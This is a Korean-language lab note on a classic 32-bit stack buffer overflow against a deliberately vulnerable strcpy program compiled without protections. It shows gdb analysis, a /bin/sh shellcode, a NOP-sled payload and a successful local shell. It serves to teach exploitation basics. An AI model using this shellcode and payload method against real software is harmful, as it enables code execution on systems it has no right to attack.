 # Buffer Overflow란?

**Buffer Overflow**는 C언어나 C++에서 버퍼에 데이터를 입력 받을 때 **입력 값의 크기를 검증하지 않아** 
버퍼가 흘러 넘쳐 다른 변수나 메모리를 덮어 씌우게 되는 버그이다.   
이 취약점을 이용해 **Return address**를 원하는 주소로 덮어 씌워 **IP(Instruction Pointer)를 제어**할 수 있게 된다.   
Buffer Overflow에는 **Stack Overflow**와 **Heap Overflow**가 있다.

## 실습
``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
}
```
**strcpy 함수**로 argv[1]을 buf로 복사하고 printf로 출력한다.   
여기서 취약점은 **strcpy** 함수에서 발생한다.   
strcpy 함수는 null byte(문자열의 끝)를 만날 때까지 문자열을 복사하는 함수이다. 즉, 복사하는 버퍼의 크기를 검증하지 않는 취약한 함수이다.   
그래서 buf의 크기인 256byte를 훨씬 넘는 데이터도 buf에 복사할 수 있게 된다.

```
oojin@ubuntu:~/Study/System/BOF$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -no-pie -o bugfile1 bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ls
bugfile1  bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 AAAA
AAAA
```
32bit로 컴파일 시켰다. AAAA를 입력하면 AAAA가 출력되는 그런 형식이다.

```
yoojin@ubuntu:~/Study/System/BOF$ gdb -q bugfile1
Reading symbols from bugfile1...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x100 //0x100은 10진수로 256
   0x08048444 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048447 <+12>:	add    eax,0x4
   0x0804844a <+15>:	mov    eax,DWORD PTR [eax]
   0x0804844c <+17>:	push   eax
   0x0804844d <+18>:	lea    eax,[ebp-0x100]
   0x08048453 <+24>:	push   eax
   0x08048454 <+25>:	call   0x8048300 <strcpy@plt>
   0x08048459 <+30>:	add    esp,0x8
   0x0804845c <+33>:	lea    eax,[ebp-0x100]
   0x08048462 <+39>:	push   eax
   0x08048463 <+40>:	call   0x8048310 <puts@plt>
   0x08048468 <+45>:	add    esp,0x4
   0x0804846b <+48>:	mov    eax,0x0
   0x08048470 <+53>:	leave  
   0x08048471 <+54>:	ret    
End of assembler dump.
```

gdb로 bugfile1을 분석해 보았다. main함수를 disassemble하면 위와 같다.
main+3에서 stack을 0x100만큼 확장하였다.(변수 할당)   

RET(4)   
SFP(4)   
buf(256)   

buf가 256byte, SFP가 4byte 그리고 RET(Return address)이니 260 byte를 넘게 입력하면 RET가 덮일 것이다.   
./bugfile1 $(python -c 'print("A" * 264)')를 입력하였을 때, Return address가 덮여서 segmantation fautl가 났다.   
이때 EIP는 0x41414141로 덮인 상태이다.   
이제 쉘 코드를 메모리 어딘가에 넣어서 공격을 하면 된다.   
bugfile1은 argv[1]을 buf로 복사하니, agrv[1]에 넣고 Return address를 buf의 주소로 덮어씌우면 된다.   
buf의 주소를 찾아보겠다. main+33 지점이 strcpy 함수가 끝나는 시점이니 이곳에 break를 걸고 디버깅 해 보았다.

```
(gdb) b* main+33
Breakpoint 1 at 0x804845c
(gdb) r $(python -c 'print("A"*264)')
Starting program: /home/yoojin/Study/System/BOF/bugfile1 $(python -c 'print("A"*264)')

Breakpoint 1, 0x0804845c in main ()
(gdb) x/70wx $esp
0xffffce38:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce48:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce58:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce68:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce78:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce88:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce98:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcea8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffceb8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcec8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffced8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcee8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf08:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf18:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf28:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf38:	0x41414141	0x41414141	0x00000000	0xffffcfd4
0xffffcf48:	0xffffcfe0	0x00000000
```

스택에 argv[1]에 입력한 A 264개가 들어 있다.
buf의 주소는 ** 0xffffce38** 이다.

이제 argv[1]에 쉘코드를 넣고 RET 전까지 채운 후, buf 주소를 넣으면 된다.
하지만 buf의 주소가 정확하지 않을 수도 있기 때문에 **NOP Slide** 또는 ** NOP Sled** 라는 기법을 사용하면 성공 확률을 높일 수 있다.

쉘 코드는 /bin/sh를 실행시키는 25byte 코드를 사용하였다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

**NOP(100)+SELLCODE(25)+NOP(131)+SFP(4)+RET(4)**
이렇게 하면 된다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������8���
Segmentation fault (core dumped)
```

공격이 실패했다. 이유는 gdb에서 분석시에 buf의 주소와 실제 시행 시에 buf의 주소가 차이가 나기 떄문이다.
bugfile1의 소스 코드르 조금 수정하여 실제  buf 주소가 무엇인지 확인 해 보았다.

``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    printf("%p\n", buf);
}
```

printf 함수로 buf의 주소를 출력해보았다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
```

실제 buf의 주소는 **0xffffce78**이었다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x78\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
$ id
uid=1000(yoojin) gid=1000(yoojin) groups=1000(yoojin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

실제 주소인 **0xffffce78**로 다시 exploit을 시도해보았더니 성공하였다.
